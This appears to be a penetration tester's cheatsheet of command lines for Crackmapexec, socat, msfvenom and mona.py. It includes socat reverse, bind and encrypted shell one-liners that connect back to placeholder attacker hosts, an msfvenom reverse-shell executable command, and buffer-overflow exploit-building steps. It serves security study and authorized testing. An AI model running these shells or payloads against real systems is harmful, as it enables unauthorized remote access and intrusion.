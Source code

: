 # Tools and commands cheatsheet

Set of notes related to pentesting tools.

## Crackmapexec

```bash
# base template for commands
cme <service> <target_IP> -d <domain> -u '<user>' -p '<pass>' --<action>
```

## Socat

### Fully interactive TTY reverse shell

* on attack box: ```socat file:`tty`,raw,echo=0 tcp-listen:4444```
* on target: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:4444`

### Reverse shells

* basic reverse shell listener in socat: `socat TCP-L:<port> -`
* connecting back on windows: `socat TCP:<local-ip>:<local-port> EXEC:powershell.exe,pipes`
* connecting back on linux: `socat TCP:<local-ip>:<local-port> EXEC:"bash -li"`

### Fully stable reverse shell on linux

* set up the following listener: ```socat TCP-L:<port> FILE:`tty`,raw,echo=0```
* connect to the listener as you would with netcat or rlwrap
* run the following command to get a stable shell: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Bind shells

* on a linux target: `socat TCP-L:<port> EXEC:"bash -li"`
* on a windows target: `socat TCP-L:<port> EXEC:powershell.exe,pipes`
* connecting to the listener on the attack box: `socat TCP:<target-ip>:<target-port> -`

### Encrypted shells

* generate a certificate on the attack box: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
* merge the two created files: `cat shell.key shell.crt > shell.pem`
* use the certificate on both the attack box and the target

### Reverse encrypted shell

* set up the socat listener: `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -`
* connect back to the listener: `socat OPENSSL:<local-ip>:<local-port>,verify=0 EXEC:/bin/bash`

### Bind encrypted shell

* set up the listener on the target: `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
* connect from the attack box: `socat OPENSSL:<target-ip>:<target-port>,verify=0 -`

## Msfvenom

### Example syntax

* `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-ip> LPORT=<listen-port>`

### Meterpreter payload naming convention

* general naming convention is `<OS>/<arch>/<payload>`
* for instance `linux/x86/shell_reverse_tcp`
* however, windows 32bit targets have no specified arch, like so: `windows/shell_reverse_tcp`
* staged payloads are denoted by a slash: `windows/x64/meterpreter/reverse_tcp`
* stageless payloads are denoted by an underscore: `linux/x86/meterpreter_reverse_tcp`

### Listing payloads

* `msfvenom --list payloads`
* grep the output for specific results, like `msfvenom --list payloads | grep "linux/x86/meterpreter"`

## mona.py

### Main commands for BOFs with immunity debugger

* set a working folder at C:\mona\<app-name>: `!mona config -set workingfolder c:\mona\%p`
* calculate exact offset with distance from metasploit's pattern_create: `!mona findmsp -distance <length from pattern_create.rb>`
* generate badchars, excluding \x00 which is always bad: `!mona bytearray -b "\x00"`
* compare badchars with specified address, usually the ESP register: `!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`
* finding a jump point for your exploit without the badchars: `!mona jmp -r <register> -cpb "<badchars found>"`

